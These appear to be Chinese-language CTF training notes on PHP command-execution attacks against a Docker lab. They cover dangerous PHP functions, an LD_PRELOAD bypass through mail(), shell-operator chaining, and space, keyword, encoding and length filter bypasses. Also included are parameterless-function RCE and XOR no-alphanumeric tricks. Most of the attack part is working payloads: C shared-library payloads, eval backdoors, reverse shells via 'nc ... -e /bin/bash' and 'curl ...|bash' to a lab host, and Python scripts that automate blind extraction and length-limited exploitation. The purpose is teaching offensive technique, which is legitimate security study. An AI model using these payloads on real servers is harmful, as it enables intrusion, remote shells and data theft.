

```
docker pull mcc0624/cmd:latest
docker run -p 18022:22 -p 18080:80 -p 18081:81 -p 18082:82 -p 18085:85 -i -t mcc0624/cmd:latest bash -c '/etc/rc.local; /bin/bash'
```

# PHP命令执行

## 常见命令执行危险函数

### system

```php
system(string $command, int &$return_var = ?)

提供return_var参数，则外部命令执行后的返回状态将会被设置到此变量中。
```

### exec

```php
output参数：用命令执行的输出填充此数组，每行输出填充数组中的一个元素。即逐行填充数组。

借用print_r输出结果
```

### passthru

```php
passthru(string $command, int &$return_var = ?)

输出二进制数据，并且直接传送到浏览器。
```

### shell_exec

```php
shell_exec(string $cmd)

环境执行命令，并且将完整的输出以字符串的方式返回。功能等同于反引号

借用echo、print等输出结果
```

### 反引号

```php
反引号 `要执行的命令`
```

### popen

```php
popen(string $command, string $mode)

mode参数：模式。'r'表示阅读，'w'表示写入。

fgets获取内容->print_r输出内容
```

### proc_open

```php
proc_open($command, $descriptor_spec, $pipes, $cwd, $env_vars, $options)

descriptor_spec参数：定义数组内容

pipes参数：调用数组内容
```

### pcntl_exec

```php
需要单独加载组件

pcntl_exec(string $path, array $args = ?,array $envs = ?)

参数path必须是可执行二进制文件路径或一个在文件第一行指定了一个可执行文件路径表头的脚本（比如文件第一行是#!/usr/local/bin/perl的perl脚本）

参数args是一个要传递给程序的参数的字符串数组

参数envs是一个要传递给程序作为环境变量的字符串数组

#/bin/bash -c /bin/ls
path       args

info信息:没有禁用pcntl_exec函数
pcntl_exec函数没有回显
解决方法一:cat文件并输出到有权限读取路径
解决方法二:shell反弹

ini_set('open_basedir','/www/admin/localhost_81/wwwroot/class02' . $dir);
error_reporting(0);
if(isset($_POST['cmd'])){
    $cmd = $_POST['cmd'];
    if($cmd){
        eval($cmd);
    }
    else{
        echo "给你留个后门又能怎样？能拿到我根目录下的flag么？"
    }
}

POST提交
cmd=pcntl_exec("/bin/bash",array("-c","nc 192.168.88.141 7777 -e /bin/bash"));
参数path:"/bin/bash"
参数args:以数组形式包裹起来
-c执行二进制文件
nc反弹tcp连接到kail,kail监听端口:nc -lvp 7777
-e /bin/bash返回命令行交互界面
```

## LD_PRELOAD绕过

```
LD_PRELOAD可以修改库文件，影响程序运行时的链接，它允许你定义在程序运行前优先加载的动态链接库。
这个功能主要就是用来有选择性的载入不同动态链接库中的相同函数。
通过这个环境变量，我们可以在主程序和其动态链接库的中间加载别的动态链接库，甚至覆盖正常的函数库。
使用自己的或是更好的函数(无需别人的源码)也可以向别人的程序注入恶意程序
```

mail

```shell
vim demo.php

<?php
mail('','','','');
?>

strace -o 1.txt -f php demo.php

把demo.php执行的动作，以文本形式放在1.txt

cat 1.txt | grep execve

检查调用了哪些子程序

readelf -Ws /usr/sbin/sendmail

查看sendmail调用了哪些库文件
```


```shell
vim demo.c

#include<stdlib.h>
#include<stdio.h>
#include<string.h>
void payload(){
	system("echo '小可爱，你邮件还能发出去么？'");
}
int geteuid(){               //生成动作geteuid，执行payload
	unsetenv("LD_PRELOAD");  //结束调用
	payload();
}

gcc -shared -fPIC demo.c -o demo.so

将带有命令的c文件编译成.so文件，生成动态链接库文件

vim demo.php

<?php
putenv("LD_PRELOAD=./demo.so"); //加载动态链接库demo.so
mail('','','','');
?>

php demo.php
```


```
绕过条件：
	能够上传自己的.so文件
	能够控制环境变量的值（设置LD_PRELOAD变量），比如putenv函数并且未被禁止
	存在可以控制PHP启动外部程序的函数并能执行（因为新进程启动将加载LD_PRELOAD中的.so文件），比如mail()、imap_mail()、mb_send_mail()和error_log()等
```

## mail()函数命令执行例题

```php
查看源代码
ini_set('open_basedir','/www/admin/localhost_81/wwwroot/class02' . $dir);
error_reporting(0);
if(isset($_POST['cmd'])){
    $cmd = $_POST['cmd'];
    if($cmd){
        eval($cmd);
    }
    else{
        echo "给你留个后门又能怎样？能拿到我根目录下的flag么？"
    }
}
并且从info得知禁用了所有可能用到命令执行的函数，但是mail()函数可用，可以直接用蚁剑连接，密码是cmd，但是虚拟终端基本无用，只可以上传文件
```

```php
mail函数->调用子程序"/usr/sbin/sendmail"->调用动态链接库geteuid函数

给geteuid重新赋值

vim demo.c

#include<stdlib.h>
#include<stdio.h>
#include<string.h>
void payload(){
	system("cat /flag > /tmp/flag"); //读取flag输出到/tmp/flag
}
int geteuid(){               //生成动作geteuid，执行payload
	unsetenv("LD_PRELOAD");  //结束调用
	payload();
}

gcc -shared -fPIC demo.c -o demo.so

vim demo.php

<?php
putenv("LD_PRELOAD=./demo.so");
mail('','','','');
?>

然后将demo.php和demo.so通过蚁剑上传

然后再在url上访问demo.php,随后便可以在tmp目录下找到flag
```

```php
#include<stdlib.h>
#include<stdio.h>
#include<string.h>
void payload(){
	system("nc 192.168.88.141 7777 -e /bin/bash"); //读取flag输出到/tmp/flag
}
int geteuid(){               //生成动作geteuid，执行payload
	unsetenv("LD_PRELOAD");  //结束调用
	payload();
}
然后使用nc -lvp 7777来监听，再在url上访问demo.php后，便可以反弹shell
```

```php
#include<stdlib.h>
#include<stdio.h>
#include<string.h>
int geteuid(){   
	const char* cmdline = getenv("EVIL_CMDLINE");
    if(getnev("LD_PRELOAD") == NULL){
        return 0;
    }
    unsetenv("LD_PRELOAD");
    system(cmdline);
}
把要执行的命令赋值到环境变量EVIL_CMDLINE直接读取命令

构造demo.php

<?php
$cmd=$_REQUEST["cmd"]; //要执行的系统命令cmd
$out_path=$_REQUEST["outpath"]; //outpath命令执行结果输出到指定路径下的文件
$evil_cmdline=$cmd.">".$out_path."2>&1"; //2>&1将标准错误重定向到标准输出
echo "<br /><b>cmdline:</b>".$evil_cmdline; //打印显示实际在linux上执行的命令
putenv("EVIL_CMDLINE=".$evil_cmdline); //将执行的命令，配置成系统环境变量EVIL_CMDLINE

$so_path=$_REQUEST["sopath"]; //sopath传入.so文件
putenv("LD_PRELOAD=".$so_path); //将.so文件路径配置成系统环境变量LD_PRELOAD
mail("","","","");
echo "<br /><b>output:</b><br/>".nl2br(file_get_contents($out_path)); //echo把内容在网页上显示出来
?>

用蚁剑上传demo.php和demo.so

url:demo.php?cmd=ls&outpath=/tmp/benben&sopath=./demo.so

cmd执行的命令

outpath输出的路径

sopath指定恶意动态链接库
```

## 蚁剑及pcntl绕过函数过滤

使用蚁剑可以十分方便的进行绕过


选择PHP7_GC_UAF,点击开始,即可开始命令执行

## 操作系统链接符

```php
<?php
highlight_file(__FILE__);
error_reporting(0);
$cmd=$_GET["cmd"];
if(isset($cmd)){
    system("ls".$cmd)
}
```

**拼接命令**

* ;
  使多个命令按顺序执行
  前面的命令和后面的命令都会执行
  即使前面的命令出错,后面的命令依旧能执行

  ```php
  id;ls;pwd
  
  <?php
  highlight_file(__FILE__);
  error_reporting(0);
  $cmd=$_GET["cmd"];
  if(isset($cmd)){
      system("ls".$cmd)
  }
  
  http://192.168.88.141:18080/class03/1.php?cmd=;cat flag.php
  ```

  

* &
  使命令在后台运行
  这样就可以同时执行多条命令
  前面的命令即使错误,后面的命令也能正常执行

  ```php
  <?php
  highlight_file(__FILE__);
  error_reporting(0);
  $cmd=$_GET["cmd"];
  if(isset($cmd)){
      system("ls".$cmd)
  }
  
  ?cmd=&id不正确,而要使用url编码,即
  ?cmd=%26id
  ```

* &&
  如果前面的命令执行成功
  则执行后面的命令

  ```php
  <?php
  highlight_file(__FILE__);
  error_reporting(0);
  $cmd=$_GET["cmd"];
  if(isset($cmd)){
      system("ls".$cmd)
  }
  
  ?cmd=1%26%26idid 第一条命令无法执行,则后面的命令也无法执行
  ```

* |
  将前面的命令的输出作为后面命令的输入,把前面命令的结果当成后面命令的参数;前面的命令和后面的命令都会执行,但只显示后面的命令执行结果

  ```php
  <?php
  highlight_file(__FILE__);
  error_reporting(0);
  $cmd=$_GET["cmd"];
  if(isset($cmd)){
      system("ls".$cmd)
  }
  
  ```

  

* ||
  类似于程序中的if-else语句
  若前面的命令执行成功,则后面的命令就不会执行
  若前面的命令执行失败,则后面的命令会执行

  ```php
  <?php
  highlight_file(__FILE__);
  error_reporting(0);
  $cmd=$_GET["cmd"];
  $cmd=$cmd.">/dev/null 2>&1"; //把正常输出和错误输出全部丢入垃圾桶
  if(isset($cmd)){
      system($cmd)
  }
  
  ?cmd=ls||
  使后面的指令失效
  ```

## 空格过滤绕过

```php
<?php
header("content-type:text/html;charset=utf-8");
highlight_file(__FILE__);
error_reporting(0);
$cmd = $_GET["cmd"];
if(isset($cmd)){
    $cmd = preg_replace("# #","",$cmd);
    echo "过滤后的命令：".$cmd."</br >";
    echo "命令执行结果如下：";
    system($cmd);
}
?>
```

1. 大括号{cat,flag.txt};

2. $IFS代替空格;\$IFS \${IFS} \$IFS\$9

   ```shell
   Linux下有一个特殊的环境变量叫做IFS,叫做内部字段分隔符(internal field separator)
   ?cmd=ls$IFS-l
   单纯$IFS,IFS2被bash解释器当作变量名而无法输出结果,加一个{}就固定了变量名
   ?cmd=ls${IFS}-l
   $IFS$9 - 后面加个$与{}类似,起截断作用,$9是当前系统shell进程第九个参数持有者,始终为空字符串
   ?cmd=ls$IFS$9-l
   ```

3. 重定向字符<

   ```shell
   "<"表示的是输入重定向的意思,就是把<后面跟的文件取代键盘作为新的输入设备
   ?cmd=cat<flag.php
   ```

4. %09(Tab) %20(space)

   ```shell
   ?cmd=cat%09flag.php
   ```

## 文件名过滤绕过

```php
<?php
header("content-type:text/html;charset=utf-8");
highlight_file(__FILE__);
error_reporting(0);
if(isset($_GET['cmd'])) {
    $cmd = $_GET['cmd'];
    if (!preg_match("/flag|system|php/i", $cmd)) {
        eval($cmd);
    }
    else{
        echo "命令有问题哦，来黑我丫！！！";
        }
}
flag|system|php被过滤
```

1. 通配符 ? * 绕过
   有多个匹配则全部输出

   ```shell
   通配符是一种特殊语句,主要有问号和星号,用来模糊搜索文件
   ?在linux里面可以进行代替字母.?仅代表单个字符串,但此单字必须存在.
   *在linux里面可以进行模糊匹配.*可以代表任何字符串
   ```

   

2. 单引号 双引号绕过

   ```shell
   ?cmd=passthru('cat fl""ag.p""hp');
   同样可以执行
   或者
   ?cmd=passthru('cat fl\'\'ag.p\'\'hp');反斜杆将单引号的功能性去除了
   ```

3. 反斜杠 \ 绕过

   ```shell
   ?cmd=passthru('cat fl\ag.p\hp');
   在linux里 \ 是命令连接符
   ```

   

4. 特殊变量:\$1到$9

   ```shell
   输出为空
   cat fl$1ag.p$9hp
   cat fl$*\ag.php
   ```

   

5. 内联执行

   自定义字符串,再拼接起来

   ```shell
   a=f;d=ag;c=l;cat $a$c$d.txt
   ```

   

6. 利用linux中的环境变量

   使用环境变量力的字符执行变量

   ```shell
   echo $PATH
   /usr/local/sbin:/usr/local/bin:/usr/sbin:/usr/bin:/sbin:/bin:/usr/local/games:/usr/games
   echo f${PATH:5:1} # 使用环境变量里的第五个字符
   fl
   echo f${PATH:5:1}${PATH:8:1}${PATH:72:1}
   flag
   ```

## 常见文件读取命令绕过

```shell
<?php
header("content-type:text/html;charset=utf-8");
highlight_file(__FILE__);
error_reporting(0);
if(isset($_GET['cmd'])) {
    $cmd = $_GET['cmd'];
    if (!preg_match("/flag|php|cat|sort|shell|\'/i", $cmd)) {
        eval($cmd);
    }
    else{
        echo "再来黑我丫！！！";
    }
}
```

1. tac(反过来就是cat) : 反向显示

2. more : 一页一页显示内容

3. less : 与more类似

4. tail : 查看末尾几行(默认显示最后十行)

5. nl : 显示的时候 , 顺便输出行号

6. od : 以二进制方式读取档案内容 , 为了显示 , 需要加参数-A d -c , 否则全是十六进制内容

   ```shell
   od -A d -c flag.php
   ```

7. xxd : 读取二进制文件(左边是十六进制 , 右边是字符)
   

8. sort : 主要用于排序文件

   ```shell
   http://192.168.88.141:18080/class06/1.php?cmd=passthru("/usr/bin/s?rt fla?.?hp");
   或者
   http://192.168.88.141:18080/class06/1.php?cmd=passthru("s\ort fla?.?hp");
   ```

   

9. uniq : 报告或删除文件中重复的行

10. fiile -f : 报错出具体内容

    

11. grep : 在文本中查找指定的字符串

    ```shell
    http://192.168.88.141:18080/class06/1.php?cmd=passthru("grep fla fla*");
    从fla*文本文件中搜索包含"fla"字符串的行 , 或者直接搜索大括号{}
    ```


## 编码绕过

```shell
<?php
header("content-type:text/html;charset=utf-8");
highlight_file(__FILE__);
error_reporting(0);
if(isset($_GET['cmd'])) {
    $cmd = $_GET['cmd'];
    if (!preg_match("/flag|php|cat|sort|shell/i", $cmd)) {
        eval($cmd);
    }
    else{
        echo "再来黑我丫！！！";
    }
}
```

**绕过原理**

命令编码后的字符串—->绕过过滤----->目标服务器---->解码读取命令---->执行命令

1. base64/base32编码

   ```python
   import base64
   S=b'cat flag.php' # 参数S的类型必须是字节包(byte)
   e64=base64.b64encode(S) # e64=base64.b32encode(S)
   print(e64)
   
   cat flag.php---->Y2F0IGZsYWcucGhw
   
   echo Y2F0IGZsYWcucGhw | base64 -d # base32 -d
   |把前面指令执行的结果,变成后面指令的参数
   
   echo Y2F0IGZsYWcucGhw | base64 -d | bash
   |把cat flag.php放在bash里执行
   或者
   `echo Y2F0IGZsYWcucGhw | base64 -d`
   或者
   $(echo Y2F0IGZsYWcucGhw | base64 -d)
   ```

2. HEX编码

   ```python
   import binascii
   s=b"tac flag"
   h=binascii.b2a_hex(s)
   print(h)
   
   tac flag.php---->74616320666c6167
   echo "74616320666c6167" | xxd -r -p | bash
   xxd : 二进制显示和处理文件工具
   -r -p将纯十六进制转储的反向输出打印为了ASCII格式
   ```

## 无回显时间盲注

页面无法shell反弹或者无法回显 , 或者没有写入权限 , 可以尝试命令盲注 , 根据返回的时间来进行判断

1. sleep

2. awk NR
   用于逐行获取数据

   ```shell
   cat flag
   hello
   Flag{success!!}
   cat flag | awk NR==1
   hello
   cat flag | awk NR==2
   Flag{success!!}
   ```

3. cut -c
   用于逐个获取单个字符

   ```shell
   cat flag | awk NR==1 | cut -c 1
   h
   cat flag | awk NR==1 | cut -c 2
   e
   ```

4. if
   if []里的判断语句为真 . 则执行echo right , 否则执行 fi 结束

   ```shell
   if [$(cat flag | awk NR==1 | cut -c 1) == h];then echo "right";fi
   if [$(cat flag | awk NR==1 | cut -c 1) == e];then echo "right";fi
   if 后面要有空格
   ```

```python
import requests
import time
url=""
result=""
for i int range(1,5): # 检测5行
    for j in range(1,10): # 检测10个字符
        for k in range(32,128): # ascii码表
            k=chr(k)
            time.sleep(0.1)
            payload="?cmd=" + f"if[`ls | awk NR=={i} | cut -c {j}` == {k}];then sleep 2;fi"
            try:
                requests.get(url=url+payload,timeout=(1.5,1.5)) # 响应时间超过1.5秒
            except:
                result=result+k
                print(result)
                break
    result+=""
```

## 长度过滤绕过

### 前置知识

1. 通过 > 来创建文件 , 覆盖文件内容

   ```shell
   echo benben > a
   创建文件a , 并把字符串benben写入文件a
   echo hello > a
   通过 > 来将命令执行结果写入文件会覆盖掉文件原本的内容
   > b
   创建文件b
   ```

2. 通过 >> 来追加内容

3. 命令换行

   ```shell
   c\
   a\
   t \
   a
   相当于cat a
   ```

4. ls -t
   将文件名按照时间顺序排列出来(后创建的排在前面,且只能精确到秒)

   ```shell
   >ag
   >fl\\
   >"t \\"
   >ca\\
   ls -t
   按照时间顺序反向依次创建文件 \\前面的\把后面的\实体化
   ls -t > x
   把ls -t执行结果写入文件x
   再通过sh x来执行
   ```
   

   

   对命令长度有限制时 , 可以把一些很短的文件名拼接成可执行命令

   * \>创建很短的文件名
   * ls -t按时间顺序列出文件名 , 按行存储
   * \ 连接换行命令
   * sh 从文件中读取命令

5. dir及 * 和 rev

   dir : 基本上和 ls 一样 , 但有两个好处 : 

   一是开头字母是 d , 这使得它在 alphabetical 序中靠前

   二是按列输出 , 不换行
   

   \* : 相当于\$(dir *)

   

   如果第一个文件名是命令的话就会执行命令 , 返回执行的结果 , 之后的文件名作为参数传入

   rev : 可以反转文件的每一行内容

   

### 长度为7进行绕过

```php
<?php
highlight_file(__FILE__);
error_reporting(E_ALL);
function filter($argv){
    $a = str_replace("/\*|\?|/","=====",$argv);
    return $a;
}
if (isset($_GET['cmd']) && strlen($_GET['cmd']) <= 7) {
    exec(filter($_GET['cmd']));
} else  {
    echo "flag in local path flag file!!";
}
```

```shell
期望执行的命令
cat flag | nc 192.168.88.141 7777 # exec没有回显
kail地址192.168.88.141,监听端口7777
cat flag展示内容
再通过nc反弹
提交到192.168.88.141:7777
```

```shell
?cmd=>7777
?cmd=>\ \\
?cmd=>141\\
?cmd=>88.\\
?cmd=>168.\\
?cmd=>192.\\
?cmd=>c\ \\
?cmd=>\|n\\
?cmd=>flag\\
?cmd=>t\ \\
?cmd=>ca\\
?cmd=ls -t>a
?cmd=sh a
```

```py
#encoding:utf-8
import time
import requests
url=""
s=requests.session()
list=[
    '>7777',
    '>\ \\',
    '>141\\',
    '>88.\\',
    '>168.\\',
    '>192.\\',
    '>c\ \\',
    '\|n\\',
    'flag\\',
    't\ \\',
    'ca\\',
    'ls -t>a'
]
for i in list:
    time.sleep(1)
    payload=url + str(i)
    s.get(url)
s.get(url+"sh a")
```

### 长度为5进行绕过

更换期望执行的命令

```shell
curl 192.168.88.141|bash
条件是开启web服务，80端口，在默认index.html页面写入
nc 192.168.88.141 7777 -e /bin/bash
再监听端口
nc -lvp 7777
curl 192.168.88.141
访问并下载默认index.html
|bash
把下载的index.html交给bash执行
即执行nc 192.168.88.141 7777 -e /bin/bash
```

```py
#encoding:utf-8
import time
import requests
baseurl = ""
s = requests.session()

# 将ls -t 写入文件_
list1=[
    ">ls\\",
    "ls>_",
    ">\ \\", # ls默认排序无法正常排出ls -t>y
    ">-t\\", # 借助写入_文件再通过追加的方式
    ">\>y",
    "ls>>_"
]

# curl 192.168.1.161/1|bash
list2=[
    ">bash",
    ">\|\\",
    ">\/\\",
    ">61\\",
    ">1\\",
    ">1.\\",
    ">8.\\",
    ">16\\",
    ">2.\\",
    ">19\\",
    ">\ \\",
    ">rl\\",
    ">cu\\"
]
for i in list1:
    time.sleep(1)
    url = baseurl+str(i)
    s.get(url)

for j in list2:
    time.sleep(1)
    url = baseurl+str(j)
    s.get(url)

s.get(baseurl+"sh _")
s.get(baseurl+"sh y")

```

```shell
touch index.html
vim index.html
写入nc 192.168.88.141 7777 -e /bin/bash
python -m http.server 80
```


### 长度为4进行绕过

ls>>_追加命令长度为5，超过4个，将不再适用

步骤一：构造ls -t>g

步骤二：构造一个反弹shell
			curl 192.168.88.141|bash
			curl 0xC0A801A1|bash

步骤三：反弹回来的shell查看flag

```py
#encoding:utf-8
import time
import requests
baseurl = "http://192.168.1.6:19080/class09/4/ffff.php?cmd="
s = requests.session()

# 将ls -t 写入文件g
list=[
    ">g\;",
    ">g\>",
    ">ht-",
    ">sl",
    ">dir",
    "*>v",
    ">rev",
    "*v>x"
]

# curl 192.168.1.161|bash
list2= [
    ">ash",
    ">b\\",
    '>\|\\',
    '>A1\\',
    '>01\\',
    '>A8\\',
    '>C0\\',
    '>0x\\',
    '>\ \\',
    '>rl\\',
    '>cu\\'
]
for i in list:
    time.sleep(1)
    url = baseurl+str(i)
    s.get(url)

for j in list2:
    time.sleep(1)
    url = baseurl+str(j)
    s.get(url)

s.get(baseurl+"sh x")
s.get(baseurl+"sh g")

```

## 无参数命令执行

[无参数命令执行](https://skysec.top/2019/03/29/PHP-Parametric-Function-RCE/#%E5%89%8D%E8%A8%258)

> ### 什么是无参数函数RCE
>
> 传统意义上，如果我们有
>
> ```
> eval($_GET['code']);
> ```
>
> 
>
> 即代表我们拥有了一句话木马，可以进行getshell，例如
> [](https://skysec.top/images/2019-03-29-13-00-08.png)
> 但是如果有如下限制
>
> ```
> if(';' === preg_replace('/[^\W]+\((?R)?\)/', '', $_GET['code'])) {    
>     eval($_GET['code']);
> }
> ```
>
> 
>
> 我们会发现我们使用参数则无法通过正则的校验
>
> ```
> /[^\W]+\((?R)?\)/
> ```
>
> 
>
> 而该正则，正是我们说的无参数函数的校验，其只允许执行如下格式函数
>
> ```
> a(b(c()));
> 
> a();
> ```
>
> 
>
> 但不允许
>
> ```
> a('123');
> ```
>
> 
>
> 这样一来，失去了参数，我们进行RCE的难度则会大幅上升。
> 而本篇文章旨在bypass这种限制，并做出一些更苛刻条件的Bypass。
>
> ### 法1：getenv()
>
> 查阅php手册，有非常多的超全局变量
>
> ```
> $GLOBALS
> $_SERVER
> $_GET
> $_POST
> $_FILES
> $_COOKIE
> $_SESSION
> $_REQUEST
> $_ENV
> ```
>
> 
>
> 我们可以使用`$_ENV`，对应函数为`getenv()`
> [](https://skysec.top/images/2019-03-29-13-45-53.png)
> 虽然`getenv()`可获取当前环境变量，但我们怎么从一个偌大的数组中取出我们指定的值成了问题
> 这里可以使用方法：
> [](https://skysec.top/images/2019-03-29-13-47-19.png)
> 效果如下
> [](https://skysec.top/images/2019-03-29-13-46-53.png)
> 但是我不想要下标，我想要数组的值，那么我们可以使用
> [](https://skysec.top/images/2019-03-29-13-47-44.png)
> 两者结合使用即可有如下效果
> [](https://skysec.top/images/2019-03-29-13-47-02.png)
> 我们则可用爆破的方式获取数组中任意位置需要的值，那么即可使用getenv()，并获取指定位置的恶意参数
>
> ### 法二：getallheaders()
>
> 之前我们获取的是所有环境变量的列表，但其实我们并不需要这么多信息。仅仅http header即可
> 在apache2环境下，我们有函数getallheaders()可返回
> 我们可以看一下返回值
>
> ```
> array(8) { 
>     ["Host"]=> string(14) "106.14.114.127" 
>     ["Connection"]=> string(10) "keep-alive" 
>     ["Cache-Control"]=> string(9) "max-age=0" 
>     ["Upgrade-Insecure-Requests"]=> string(1) "1" 
>     ["User-Agent"]=> string(120) "Mozilla/5.0 (Macintosh; Intel Mac OS X 10_14_3) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/73.0.3683.86 Safari/537.36" 
>     ["Accept"]=> string(118) "text/html,application/xhtml+xml,application/xml;q=0.9,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3"
>      ["Accept-Encoding"]=> string(13) "gzip, deflate" ["Accept-Language"]=> string(14) "zh-CN,zh;q=0.9" 
> }
> ```
>
> 
>
> 我们可以看到，成功返回了http header，我们可以在header中做一些自定义的手段，例如
> [](https://skysec.top/images/2019-03-29-13-14-31.png)
> 此时我们再将结果中的恶意命令取出
>
> ```
> var_dump(end(getallheaders()));
> ```
>
> 
>
> [](https://skysec.top/images/2019-03-29-13-15-44.png)
> 这样一来相当于我们将http header中的sky变成了我们的参数，可用其进行bypass 无参数函数执行
> 例如
> [](https://skysec.top/images/2019-03-29-13-17-09.png)
> 那么可以进一步利用http header的sky属性进行rce
> [](https://skysec.top/images/2019-03-29-13-17-52.png)
>
> ### 法三：get_defined_vars()
>
> 使用getallheaders()其实具有局限性，因为他是apache的函数，如果目标中间件不为apache，那么这种方法就会失效，我们也没有更加普遍的方式呢？
> 这里我们可以使用get_defined_vars()，首先看一下它的回显
> [](https://skysec.top/images/2019-03-29-13-20-36.png)
> 发现其可以回显全局变量
>
> ```
> $_GET
> $_POST
> $_FILES
> $_COOKIE
> ```
>
> 
>
> 我们这里的选择也就具有多样性，可以利用`$_GET`进行RCE，例如
> [](https://skysec.top/images/2019-03-29-13-22-28.png)
> 还是和之前的思路一样，将恶意参数取出
> [](https://skysec.top/images/2019-03-29-13-23-25.png)
> 发现可以成功RCE
> 但一般网站喜欢对
>
> ```
> $_GET
> $_POST
> $_COOKIE
> ```
>
> 
>
> 做全局过滤，所以我们可以尝试从`$_FILES`下手，这就需要我们自己写一个上传
> [](https://skysec.top/images/2019-03-29-13-30-34.png)
> 可以发现空格会被替换成`_`，为防止干扰我们用hex编码进行RCE
> [](https://skysec.top/images/2019-03-29-13-31-48.png)
> 最终脚本如下
>
> ```
> import requests
> from io import BytesIO
> 
> payload = "system('ls /tmp');".encode('hex')
> files = {
>   payload: BytesIO('sky cool!')
> }
> 
> r = requests.post('http://localhost/skyskysky.php?code=eval(hex2bin(array_rand(end(get_defined_vars()))));', files=files, allow_redirects=False)
> 
> print r.content
> ```
>
> 
>
> ### 法四：session_id()
>
> 之前我们使用`$_FILES`下手，其实这里还能从`$_COOKIE`下手：
> 我们有函数
> [](https://skysec.top/images/2019-03-29-13-34-09.png)
> 可以获取PHPSESSID的值，而我们知道PHPSESSID允许字母和数字出现，那么我们就有了新的思路，即`hex2bin`
> 脚本如下
>
> ```
> import requests
> url = 'http://localhost/?code=eval(hex2bin(session_id(session_start())));'
> payload = "echo 'sky cool';".encode('hex')
> cookies = {
> 	'PHPSESSID':payload
> }
> r = requests.get(url=url,cookies=cookies)
> print r.content
> ```
>
> 
>
> 即可达成RCE和bypass的目的
>
> ### 法五：dirname() & chdir()
>
> 为什么一定要RCE呢？我们能不能直接读文件？
> 之前的方法都基于可以进行RCE，如果目标真的不能RCE呢？我们能不能进行任意读取？
> 那么想读文件，就必须进行目录遍历，没有参数，怎么进行目录遍历呢？
> 首先，我们可以利用`getcwd()`获取当前目录
>
> ```
> ?code=var_dump(getcwd());
> 
> string(13) "/var/www/html"
> ```
>
> 
>
> 那么怎么进行当前目录的目录遍历呢？
> 这里用`scandir()`即可
>
> ```
> ?code=var_dump(scandir(getcwd()));
> 
> array(3) { [0]=> string(1) "." [1]=> string(2) ".." [2]=> string(9) "index.php" }
> ```
>
> 
>
> 那么既然不在这一层目录，如何进行目录上跳呢？
> 我们用`dirname()`即可
>
> ```
> ?code=var_dump(scandir(dirname(getcwd())));
> 
> array(4) { [0]=> string(1) "." [1]=> string(2) ".." [2]=> string(14) "flag_phpbyp4ss" [3]=> string(4) "html" }
> ```
>
> 
>
> 那么怎么更改我们的当前目录呢？这里我们发现有函数可以更改当前目录
>
> ```
> chdir ( string $directory ) : bool
> ```
>
> 
>
> 将 PHP 的当前目录改为 directory。
> 所以我们这里在
>
> ```
> dirname(getcwd())
> ```
>
> 
>
> 进行如下设置即可
>
> ```
> chdir(dirname(getcwd()))
> ```
>
> 
>
> 我们尝试读取`/var/www/123`
>
> ```
> http://localhost/?code=readfile(next(array_reverse(scandir(dirname(chdir(dirname(getcwd())))))));
> ```
>
> 
>
> 即可进行文件读取

### 请求头绕过(PHP7.3)

```php
<?php
error_reporting(0);
highlight_file(__FILE__);
if(';' === preg_replace('/[^\W]+\((?R)?\)/', '', $_GET['code'])) {
    eval($_GET['code']);
}
?>
```

只要在‘code’里匹配到[\^\W]+\\((?R)?\\)，则替换为空

正则表达式[\^\W]匹配字母、数字、下划线[A-Z、a-z、0-9、_]

[\^\W]+\\(?\\)匹配到“a()”形式的字符串，但是()不能出现任何参数

(?R)表示递归，即a(b(c()))都能匹配到

[\^\W]+\\((?R)?\\)能匹配到a()、a(b(c()))……格式的字符串，且()内不能有任何参数

只有a()、a(b(c()))……格式的字符串能被替换为空

```php
提交'phpinfo();'
会只留下;
提交'phpinfo(1)'
则不会替换，还是'phpinfo(1)'
提交'phpinfo(system());'
会只留下;
提交'phpinfo(system(1));'
则不会替换，还是'phpinfo(system(1));'
```

则上面的代码的意思是，如果提交的内容经过过滤后只剩下一个;，那么满足if判断，会执行提交的内容，如果括号内有参数，那么命令不会执行

getallheaders()获取所有HTTP请求标头(PHP7.3)

```shell
?code=print_r(getallheaders());
```


再用burpsuite抓包


```shell
再利用end()获取最后一行或者pos()获取第一行
```


修改内容


将print_r改为eval，再执行命令


apache_request_headers()也可以达到相同的效果，适用于apache服务器

### 全局变量RCE(PHP5/7)

**get_defined_vars()**返回所有已定义变量的值，所组成的数组


加入pos只获取第一项GET变量的值，再&加入想要获取的指令


再end获取GET的最后一项cmd的值system(‘ls’);


最后将print_r改成eval即可


### SESSION RCE(PHP5)

**session_start()**

启动新会话或者重用现有会话，成功开始会话返回TRUE，反之返回FALSE


返回PHPSESSION的值，可以用Burp Suite修改PHPSESSION的值


将print_r修改为show_source()，
用burpsuite修改PHPSESSION的值为./flag，
用show_source读取flag的值

将print_r修改为eval，修改PHPSESSION的值为命令‘phpinfo();’，
无法直接执行，需先把命令‘phpinfo();’HEX编码转为十六进制，
写入PHPSESSION，
再用hex2bin()函数将十六进制转化为二进制数，用eval执行

```shell
将system('ls');用hex编码为为73797374656d28276c7327293b
然后替换掉PHPSESSION
```


## 无字母数字

### 异或运算绕过

```php
<?php
highlight_file(__FILE__);
error_reporting(0);
if(!preg_match('/[a-z0-9]/is',$_GET['cmd'])) {
    eval($_GET['cmd']);
}
a-z、0-9过滤字母和数字
```

异或运算：如果a、b两个值不相同，则异或结果为1，相同为0

```php
echo base_convert(bin2hex('5'),16,2)---->00110101
echo base_convert(bin2hex('Z'),16,2)---->01011010
通过异或运算后得到---->01101111----->字母o
```

```php
<?php
function o(){
    echo "hello benben!!!";
}
$_="5"^"Z";
$_();
?>
    程序会输出hello benben!!!
```

异或运算生成的脚本

```php
<?php
header("content-type:text/html;charset=utf-8");
highlight_file(__FILE__);
error_reporting(0);
$shell = $_GET["cmd"];
$result1 = "";
$result2 = "";

function judge($c)
{
    if(!preg_match('/[a-z0-9]/is',$c))
    {
        return true;
    }
    return false;
}

for($num=0;$num<=strlen($shell);$num++)
{
    for($x=33;$x<=126;$x++)
    {
        if(judge(chr($x)))
        {
            for($y=33;$y<=126;$y++)
            {
                if(judge(chr($y)))
                {
                    $f = chr($x)^chr($y);
                    if($f == $shell[$num])
                    {
                        $result1 .= chr($x);
                        $result2 .= chr($y);
                        break 2;
                    }
                }
            }
        }
    }
}
echo "异或运算第一部分： ".$result1;
